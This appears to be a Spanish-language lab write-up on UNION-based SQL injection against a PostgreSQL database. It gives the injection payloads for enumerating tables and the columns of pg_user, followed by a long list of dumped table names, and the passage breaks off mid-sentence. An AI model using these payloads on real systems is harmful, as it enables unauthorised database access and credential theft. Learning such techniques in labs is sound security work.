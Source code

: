 # 📚 Writeups y Reportes Formales 📚
Indentificamos la cantidad de columnas  
Identificamos cual es la que devuelve un dato y lo imprime sin errores  
Al indentificar, pondremos la inyeccion SELECT * FROM information_schema.tables, modificandola segun la cantidad de columnas y sus datos: SELECT TABLE_NAME, NULL FROM information_schema.tables  
Datos adquiridos:
pg_partitioned_table
pg_available_extension_versions
pg_shdescription
user_defined_types
udt_privileges
sql_packages
pg_event_trigger
pg_amop
schemata
routines
referential_constraints
administrable_role_authorizations
products
pg_foreign_data_wrapper
pg_prepared_statements
pg_largeobject_metadata
foreign_tables
sql_implementation_info
collation_character_set_applicability
check_constraint_routine_usage
pg_statio_user_sequences
pg_cast
pg_user_mappings
pg_statio_all_tables
pg_stat_progress_vacuum
pg_statio_sys_sequences
foreign_servers
sql_features
pg_stat_wal_receiver
pg_pltemplate
constraint_table_usage
pg_ts_parser
parameters
pg_stat_activity
pg_ts_template
element_types
pg_stat_subscription
pg_stat_all_tables
pg_locks
pg_seclabel
pg_ts_config
pg_stat_archiver
pg_stat_ssl
role_udt_grants
pg_stat_xact_user_functions
pg_am
domain_udt_usage
column_privileges
pg_policy
pg_timezone_names
domains
pg_amproc
pg_replication_origin
information_schema_catalog_name
pg_ts_dict
character_sets
pg_db_role_setting
pg_publication
pg_stat_xact_sys_tables
foreign_data_wrappers
routine_privileges
pg_views
pg_foreign_table
pg_statio_sys_indexes
pg_database
user_mappings
pg_class
pg_foreign_server
pg_type
view_column_usage
applicable_roles
pg_group
views
domain_constraints
pg_stat_user_tables
view_table_usage
pg_transform
pg_stat_sys_indexes
role_routine_grants
role_column_grants
user_mapping_options
pg_aggregate
pg_stat_database_conflicts
pg_stat_database
sql_sizing
triggers
triggered_update_columns
pg_tables
usage_privileges
foreign_table_options
pg_index
pg_prepared_xacts
pg_description
pg_auth_members
pg_statistic_ext
pg_cursors
pg_statio_all_sequences
pg_stat_replication
pg_settings
role_table_grants
pg_statio_all_indexes
pg_depend
pg_subscription
pg_subscription_rel
columns
pg_stat_xact_user_tables
pg_stat_progress_cluster
sequences
pg_stats
pg_seclabels
pg_attribute
check_constraints
pg_rules
pg_timezone_abbrevs
pg_default_acl
pg_stat_gssapi
pg_stat_sys_tables
pg_shseclabel
pg_opclass
pg_stat_bgwriter
pg_sequence
foreign_server_options
constraint_column_usage
pg_operator
pg_extension
view_routine_usage
pg_indexes
pg_replication_slots
pg_roles
enabled_roles
data_type_privileges
key_column_usage
pg_sequences
pg_rewrite
pg_statio_user_tables
pg_attrdef
sql_languages
pg_tablespace
pg_stat_all_indexes
attributes
pg_language
pg_opfamily
pg_publication_rel
pg_ts_config_map
pg_statio_sys_tables
pg_shdepend
table_constraints
pg_matviews
sql_sizing_profiles
users_zwtnep
pg_collation
collations
table_privileges
pg_stats_ext
column_domain_usage
pg_stat_user_indexes
pg_publication_tables
pg_proc
pg_statio_user_indexes
pg_available_extensions
tables
role_usage_grants
pg_init_privs
pg_range
pg_namespace
pg_trigger
column_udt_usage
pg_enum
pg_policies
pg_user
column_column_usage
pg_stat_progress_create_index
pg_constraint
pg_stat_user_functions
pg_conversion
foreign_data_wrapper_options
pg_inherits
pg_stat_xact_all_tables
column_options

Una vez enumeradas las tablas, buscamos las que parezcan tener los usuarios, en este caso: pg_user, para poder extraer los datos de una tabla, necesitamos saber los nombres de sus columnas, podemos hacerlo con este comando:' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'pg_user'--, obteniendo asi
